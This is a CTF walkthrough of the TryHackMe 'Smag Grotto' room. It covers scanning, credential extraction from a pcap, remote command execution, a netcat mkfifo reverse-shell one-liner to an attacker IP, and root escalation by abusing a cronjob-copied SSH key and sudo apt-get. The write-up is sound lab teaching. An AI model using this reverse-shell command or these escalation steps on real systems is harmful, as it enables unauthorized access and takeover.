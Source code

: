 ```yaml
---
title: "Smag Grotto - TryHackMe"
author: Ludovic COULON
date: 2020-07-30
hero: ./images/hero.jpeg
excerpt: "Writeup for the Smag Grotto university of Portsmouth's beginner room"
---
```


[TryHackMe | Smag Grotto](https://tryhackme.com/room/smaggrotto)

Deploy the machine and get root privileges.

---

### Setup

```
[smaggrotto] nmap -A 10.10.192.6                                                                                         2:01:00
```

```bash
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 74:e0:e1:b4:05:85:6a:15:68:7e:16:da:f2:c7:6b:ee (RSA)
|   256 bd:43:62:b9:a1:86:51:36:f8:c7:df:f9:0f:63:8f:a3 (ECDSA)
|_  256 f9:e7:da:07:8f:10:af:97:0b:32:87:c9:32:d7:1b:76 (ED25519)

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 1.3K  2020-06-05 10:56  admin.php
| 1.5K  2020-06-05 10:45  login.php
| 139K  2020-06-05 10:19  materialize.min.css
|_
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Index of /
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

<div className="Image__Medium">
  <img src="https://i.imgur.com/D9PypUN.png" alt="blog_image" />
</div>

Let's see if there is something on the website

<div className="Image__Medium">
  <img src="https://i.imgur.com/aXIQi2Y.png" alt="blog_image" />
</div>

Well nothing of the website let's see of there is some hidden dirrectory with gobuster/dirb

```bash
# Select your own wordlist
[smaggrotto] gobuster -u 10.10.192.6 -w /opt/directory-list-2.3-medium.txt
```

```bash
Gobuster v1.3                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.192.6/
[+] Threads      : 10
[+] Wordlist     : /opt/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307
=====================================================
/mail (Status: 301)
```

<div className="Image__Medium">
  <img src="https://i.imgur.com/V1XUxTY.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://i.imgur.com/UZZG0pk.png" alt="blog_image" />
</div>

Nice there is something interesting on this webpage let's download the pcap (wireshark) file and extract the juicy data 👀

<div className="Image__Medium">
  <img src="https://i.imgur.com/FZ4Kz25.png" alt="blog_image" />
</div>

The simple way to extract the data is to select the first packet then go to the "Analyse" tab the click on the "Follow" then "TCP Stream"

<div className="Image__Medium">
  <img src="https://i.imgur.com/yKY9pMB.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://i.imgur.com/RR1fGLX.png" alt="blog_image" />
</div>

Nice we successfully have the username and the password but for what ? The SSH ? Or something else ? 🙄

Before trying the SSH connection with those credentials, you can see on the TCP Stream there is a Host : "development.smag.thm", let's take a look to this link.

To add this host you need to edit your "/etc/hosts" file.

<div className="Image__Medium">
  <img src="https://i.imgur.com/Q5KPLgs.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://i.imgur.com/FLbTQw7.png" alt="blog_image" />
</div>

Well let's use the credentials that the TCP Stream gives us

```bash
h[nope 👁👄👁]k:cH[nope 👁👄👁]0w
```

<div className="Image__Medium">
  <img src="https://i.imgur.com/L0iBMqp.png" alt="blog_image" />
</div>

Nice, we can execute remote command let's try a reverse shell 🤩

<div className="Image__Small">
  <img src="https://i.imgur.com/UJiq34Y.png" alt="blog_image" />
</div>

(This is actually my own chrome extension to generate some reverse shell and more..)

[LasCC/Hack-Tools](https://github.com/LasCC/Hack-Tools)

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.28.116 1337 >/tmp/f
```

<div className="Image__Medium">
  <img src="https://i.imgur.com/4pVmO2j.png" alt="blog_image" />
</div>

Nice we have a reverse shell, let's see if we can have the first flag 🏅

<div className="Image__Medium">
  <img src="https://i.imgur.com/i1MkJLx.png" alt="blog_image" />
</div>

As you can see we don't have the permission to see the content of the file let's upload LinEnum to see if there is some potential attacks that we can perform.

<div className="Image__Medium">
  <img src="https://i.imgur.com/G9PaoMF.png" alt="blog_image" />
</div>

Ah, I found something very interesting with the cronjob

<div className="Image__Medium">
  <img src="https://i.imgur.com/MkUFU4L.png" alt="blog_image" />
</div>

As you can see the cronjob is taking the jake's backup SSH public key and add it to the authorised keys, if we create our own key and modify the backup file we can access the server ☺️

First let's generate our own SSH public key 👍

```bash
[smaggrotto] ssh-keygen -o
```

<div className="Image__Medium">
  <img src="https://i.imgur.com/kXjks3E.png" alt="blog_image" />
</div>

Nice we have our own SSH public key let's change the backup file on the server 👍

<div className="Image__Medium">
  <img src="https://i.imgur.com/Q7IGUeR.png" alt="blog_image" />
</div>

Now let's wait one or two minutes and then we can log to the server with the jake username 😀

```bash
[smaggrotto] ssh -i [Path to your ssh key] jake@10.10.192.6
```

<div className="Image__Medium">
  <img src="https://i.imgur.com/hEeAJH6.png" alt="blog_image" />
</div>

And voilà ! You have the access to the remote server ! 🎉

### **#1 What is the user flag?**

```bash
iusGo[nope 👁👄👁]uqU3j
```

<div className="Image__Medium">
  <img src="https://i.imgur.com/5xn3kch.png" alt="blog_image" />
</div>

### **#2 What is the root flag?**

Now let's get a root access 😍

<div className="Image__Medium">
  <img src="https://i.imgur.com/TcRPpC7.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://i.imgur.com/9sh8unG.png" alt="blog_image" />
</div>

[apt get | GTFOBins](https://gtfobins.github.io/gtfobins/apt-get/#sudo)

<div className="Image__Medium">
  <img src="https://i.imgur.com/iDrkgGN.png" alt="blog_image" />
</div>

```bash
uJr6zRgetan[nope 👁👄👁]bBKz2T
```


